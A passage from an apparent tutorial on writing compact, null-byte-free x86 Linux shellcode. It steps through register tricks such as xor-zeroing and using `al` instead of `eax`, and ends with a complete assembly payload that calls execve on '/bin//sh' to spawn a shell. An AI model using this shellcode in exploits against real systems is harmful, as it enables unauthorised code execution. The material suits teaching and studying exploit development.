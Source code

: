 This will xor `eax` with itself and thus put `0` into this register, we can now push it to the stack:

```asm
xor eax, eax
push eax
```

We need to the other one but we have a problem: we're changing `eax` value, so we can't push it again.

If you look closely you can see that we can optimize our shellcode while solving this problem:

```asm
mov  eax, esp
push 0
mov ebx, eax
```

Is changed to:

```asm
mov  ebx, esp
push eax
```

We never really needed to move `esp` to `eax` if it was to move it to `ebx` later. Shorter code!

## Mov

Firstly, we want to set `ecx` to `0`, the easiest way is to `xor` it, as we saw previously.

Now we want to set `eax` to `11`, but the `mov` command will actually modify the full 4 bytes of the register, and needs to specify the 4 bytes (see the 3 `00` and the unique `0b`).

We could `inc eax` 11 times, but that would be really long!

Instead we can use the `al` register, which is the last 8 bits of the `eax` register:

```
64   32   16   8   0
            [AH][AL]
        [EAX       ]
[RAX               ]
```

So with all that, we can just replace

```asm
mov eax, 11
```

with

```asm
mov al, 11
```

And here's the final payload

```asm
section .text
    global _start

_start:
    xor  eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov  ebx, esp
    xor  ecx, ecx
    mov  al, 0xb
    int  0x80
```